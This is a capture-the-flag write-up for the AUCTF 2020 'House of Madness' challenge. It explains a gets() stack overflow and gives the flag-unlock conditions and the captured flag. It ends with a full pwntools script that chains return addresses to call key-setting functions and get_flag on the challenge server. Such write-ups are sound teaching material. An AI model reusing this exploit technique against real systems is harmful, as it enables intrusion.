 
# House of Madness
> xikhud, 05/04/2020.

## Problem
This is a simple BOF problem.
```cpp
char *room4()
{
  char *result; // eax
  char s1; // [esp+0h] [ebp-28h]
  char s; // [esp+10h] [ebp-18h]

  puts("Wow this room is special. It echoes back what you say!");
  while ( !unlockHiddenRoom4 )
  {
    printf("Press Q to exit: ");
    fgets(&s1, 16, stdin);
    remove_newline(&s1);
    printf("\tYou entered '%s'\n", &s1);
    result = (char *)strcmp(&s1, "Q");
    if ( !result )
    {
      return result;
    }
    if ( !strcmp(&s1, "Stephen") )
    {
      unlockHiddenRoom4 = 1;
    }
  }
  puts("Welcome to the hidden room! Good Luck");
  printf("Enter something: ");
  return gets(&s); // <--------------------- Buffer overflow
}
```
```bash
(env) osboxes@osboxes:~/Desktop$ checksec challenge
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
No canary for this binary, so we can build ROPs to call the function `get_flag` at offset `0x186B` to read the flag from the server.

## Solution
The function `get_flag` only gives us the flag if some conditions are met.
```cpp
  if ( key1 && key2 && !strcmp(key3, "Dormammu") &&
	  !__PAIR__(key4 ^ 1634625381u, dword_405C ^ 5469298u))
  {
    fgets(&s, 64, stream);
    result = printf("Damn you beat the house: %s\n", &s);
  }
```
We must have:

 - `key1 != 0 and key2 != 0`.
 - `key3` points to `"Dormamu"`.
 - `key4 == *(long long*)"Strange"`.

The binary have all the functions that will set these variables to the right values, all we have to do is call them with the right order. After some reversing, I found that the right order is `3->2->1->4->get_flag`.
And the flag is: `auctf{gu3ss_th3_h0us3_1sn't_th4t_m4d}`.

## Final solution 
```python
from pwn import *
from sys import argv
p = 0
if len(argv) < 2:
    p = process('./challenge')
else:
    p = remote('challenges.auctf.com', 30012)
#context.log_level= 'debug'
base = 0x56555000
main = 0x1229
key1,key2,key3,key4 = 0x16DE,0x176E,0x17CD,0x17E9
time = 0
def enter():
        global time
        p.sendlineafter('Your choice: ', '2')
        p.sendlineafter('enter: ', '4')
        p.sendlineafter('Your choice: ', '3')
        if time > 0:
                return
        p.sendlineafter('exit: ', 'Stephen')
        time = 1

enter()

shell = 'A'*28 + p32(base + key3) + p32(base + main)

assert '\n' not in shell
p.sendlineafter('something: ', shell)

shell = 'A'*28 + p32(base + key2) + p32(base + main)
enter()
assert '\n' not in shell
p.sendlineafter('something: ', shell)

shell = 'A'*28 + p32(base + key1) + p32(base + main) + p32(0xFEEDC0DE)
assert '\n' not in shell
enter()
p.sendlineafter('something: ', shell)

shell = 'A'*28 + p32(base + key4) + p32(base + main)
enter()
assert '\n' not in shell
p.sendlineafter('something: ', shell)

shell = 'A'*28 + p32(base + 0x186B) + p32(base + main)
enter()
assert '\n' not in shell
p.sendlineafter('something: ', shell)

p.interactive()
```